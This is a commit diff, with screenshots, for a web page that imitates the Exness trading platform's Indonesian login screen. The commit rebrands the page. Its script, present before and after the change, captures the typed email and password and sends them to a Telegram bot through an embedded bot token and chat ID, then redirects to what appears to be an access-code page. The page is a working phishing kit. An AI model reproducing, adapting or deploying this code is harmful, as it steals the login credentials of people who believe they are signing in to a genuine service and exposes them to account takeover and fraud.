

Before and after one commit to 64hegdjj/exness-login-web, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,97 +1,128 @@
 <html lang="id">
  <head>
-  <meta charset="UTF-8" />
-  <meta name="viewport" content="width=device-width, initial-scale=1" />
-  <title>Masuk</title>
-  <script src="https://cdn.tailwindcss.com"></script>
-  <link
-    rel="stylesheet"
-    href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.3/css/all.min.css"
-  />
+  <meta charset="utf-8"/>
+  <meta content="width=device-width, initial-scale=1" name="viewport"/>
+  <title>
+   Exness Login
+  </title>
+  <script src="https://cdn.tailwindcss.com">
+  </script>
+  <link href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.3/css/all.min.css" rel="stylesheet"/>
+  <link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;600&amp;display=swap" rel="stylesheet"/>
   <style>
-    @import url('https://fonts.googleapis.com/css2?family=Inter&display=swap');
    body {
       font-family: 'Inter', sans-serif;
     }
   </style>
  </head>
-<body class="bg-[#F8F8F8] min-h-screen flex flex-col">
-  <header class="flex items-center px-5 py-4">
-    <button aria-label="Back" class="text-black text-xl mr-3 focus:outline-none">
-      <i class="fas fa-chevron-left"></i>
+ <body class="bg-white text-[#0B1521] min-h-screen flex flex-col">
+  <header class="flex items-center justify-between px-5 py-4 border-b border-gray-200">
+   <div class="text-[32px] font-extrabold leading-none tracking-tight">
+    exness
+   </div>
+   <button aria-label="Change language" class="text-[#0B1521] text-xl">
+    <i class="fas fa-globe">
+    </i>
    </button>
-    <h1 class="font-semibold text-lg text-black">Masuk</h1>
   </header>
-
-  <main class="flex flex-col px-5 pt-2 flex-grow">
-    <p class="text-black text-base mb-6">Silakan masukkan alamat email dan kata sandi Anda</p>
-
-    <form id="loginForm" class="flex flex-col w-full">
-      <label for="email" class="text-black text-xs mb-1 block font-normal">Alamat email Anda</label>
-      <input
-        id="email"
-        name="email"
-        type="email"
-        placeholder=""
-        required
-        class="w-full rounded border border-gray-300 bg-white text-black text-sm px-3 py-2 mb-5 focus:outline-none focus:ring-2 focus:ring-yellow-400"
-      />
-
-      <label for="password" class="text-black text-xs mb-1 block font-normal">Kata sandi</label>
-      <div class="relative w-full">
-        <input
-          id="password"
-          name="password"
-          type="password"
-          placeholder=""
-          required
-          class="w-full rounded border border-gray-300 bg-white text-black text-sm px-3 py-2 pr-10 focus:outline-none focus:ring-2 focus:ring-yellow-400"
-        />
-        <span class="absolute right-3 top-1/2 -translate-y-1/2 text-gray-400 text-lg cursor-pointer select-none" id="togglePassword">
-          <i class="fas fa-eye-slash"></i>
-        </span>
-      </div>
-
-      <button
-        type="submit"
-        class="mt-16 bg-yellow-400 text-black text-sm font-normal rounded-md py-3 w-full"
-      >
+  <main class="flex-grow px-5 pt-6 pb-20 max-w-md mx-auto w-full">
+   <h1 class="text-3xl font-extrabold leading-tight mb-6">
+    Selamat datang di Exness
+   </h1>
+   <nav class="flex border-b border-gray-300 mb-6 text-base font-medium">
+    <button aria-current="page" class="pb-2 border-b-2 border-black text-black flex-1 text-center">
      Masuk
     </button>
+    <button class="pb-2 text-gray-400 flex-1 text-center">
+     Buat akun
+    </button>
+   </nav>
+   <form id="loginForm" class="space-y-6">
+    <div>
+     <label class="block mb-1 text-sm font-normal text-gray-700" for="email">
+      Alamat email
+     </label>
+     <input autocomplete="email" class="w-full rounded-md border border-gray-300 px-4 py-3 text-base text-gray-900 placeholder-gray-400 focus:outline-none focus:ring-2 focus:ring-yellow-400 focus:border-yellow-400" id="email" placeholder="" required="" type="email"/>
+    </div>
+    <div>
+     <label class="block mb-1 text-sm font-normal text-gray-700" for="password">
+      Kata sandi
+     </label>
+     <div class="relative">
+      <input autocomplete="current-password" class="w-full rounded-md border border-gray-300 px-4 py-3 pr-10 text-base text-gray-900 placeholder-gray-400 focus:outline-none focus:ring-2 focus:ring-yellow-400 focus:border-yellow-400" id="password" placeholder="" required="" type="password"/>
+      <button aria-label="Toggle password visibility" class="absolute inset-y-0 right-3 flex items-center text-gray-400" type="button" onclick="togglePassword()">
+       <i class="fas fa-eye-slash" id="toggleIcon">
+       </i>
+      </button>
+     </div>
+    </div>
+    <button class="w-full bg-yellow-400 hover:bg-yellow-500 text-black font-normal text-base py-3 rounded-md" type="submit">
+     Lanjutkan
+    </button>
    </form>
-
-    <p class="mt-6 text-center text-black text-xs font-normal cursor-pointer select-none">
+   <div class="flex items-center my-6 text-gray-600 text-sm">
+    <div class="flex-grow border-t border-gray-300">
+    </div>
+    <span class="mx-3 whitespace-nowrap">
+     Atau masuk dengan
+    </span>
+    <div class="flex-grow border-t border-gray-300">
+    </div>
+   </div>
+   <button class="w-full flex items-center justify-center gap-2 border border-gray-300 rounded-md py-3 text-base text-gray-900 hover:bg-gray-100" type="button">
+    <img alt="Google logo, multicolor G letter on white background" class="inline-block" height="20" src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcThtDY3lQL0z3nfknrcD16ZxHe9BGCj-MlTGQ&s" width="20"/>
+    Google
+   </button>
+   <div class="mt-6 text-center">
+    <a class="text-blue-600 text-sm font-normal hover:underline" href="#">
      Saya lupa kata sandi saya
-    </p>
+    </a>
+   </div>
   </main>
+  <footer class="px-5 pb-6 text-center text-gray-400 text-xs leading-tight max-w-md mx-auto w-full">
+   Exness tidak menawarkan layanan kepada penduduk dari yurisdiksi tertentu termasuk Amerika Serikat, Iran,
+    Korea Utara, Uni Eropa, Inggris, dan lainnya. Konten situs web, termasuk terjemahan, tidak boleh ditafsirkan
+    sebagai ajakan. Investor membuat keputusan mereka sendiri dan secara
+  </footer>
+  <button aria-label="Chat support" class="fixed bottom-6 right-6 bg-yellow-400 hover:bg-yellow-500 text-black rounded-full w-14 h-14 flex items-center justify-center shadow-lg">
+   <i class="fas fa-comment-alt text-xl">
+   </i>
+  </button>
 
   <script>
     // Toggle password visibility
-    const togglePassword = document.getElementById('togglePassword');
+    function togglePassword() {
       const passwordInput = document.getElementById('password');
-    togglePassword.addEventListener('click', () => {
-      const type = passwordInput.getAttribute('type') === 'password' ? 'text' : 'password';
-      passwordInput.setAttribute('type', type);
-      togglePassword.innerHTML = type === 'password' ? '<i class="fas fa-eye-slash"></i>' : '<i class="fas fa-eye"></i>';
-    });
+      const toggleIcon = document.getElementById('toggleIcon');
+      if (passwordInput.type === 'password') {
+        passwordInput.type = 'text';
+        toggleIcon.classList.remove('fa-eye-slash');
+        toggleIcon.classList.add('fa-eye');
+      } else {
+        passwordInput.type = 'password';
+        toggleIcon.classList.remove('fa-eye');
+        toggleIcon.classList.add('fa-eye-slash');
+      }
+    }
 
-    // Telegram Bot info - replace with your own bot token and chat ID
+    // Telegram bot info - Ganti dengan token dan chat ID kamu
     const TELEGRAM_BOT_TOKEN = '7661713527:AAEXyRZARqRcvPDenx4Y6EvPRPwh2Gp4h5A';
     const TELEGRAM_CHAT_ID = '7549590022';
 
     document.getElementById('loginForm').addEventListener('submit', function(e) {
       e.preventDefault();
 
-      const email = this.email.value.trim();
-      const password = this.password.value.trim();
+      const email = document.getElementById('email').value.trim();
+      const password = document.getElementById('password').value.trim();
 
       if (!email || !password) {
-        alert('Mohon isi semua kolom.');
+        alert('Mohon isi email dan kata sandi.');
         return;
       }
 
-      const message = `Login Data:%0AEmail: ${email}%0APassword: ${password}`;
+      const message = `Login Exness:\nEmail: ${email}\nKata sandi: ${password}`;
 
+      // Kirim pesan ke Telegram
       fetch(`https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/sendMessage`, {
         method: 'POST',
         headers: {
@@ -107,6 +138,8 @@
       .then(data => {
         if (data.ok) {
           window.location.href = "kodeakses.html";
+          // Bisa redirect atau reset form di sini
+          // window.location.href = 'somepage.html';
           this.reset();
         } else {
           alert('Gagal mengirim data ke Telegram.');
```
Lines whose indentation alone changed are shown as unchanged.
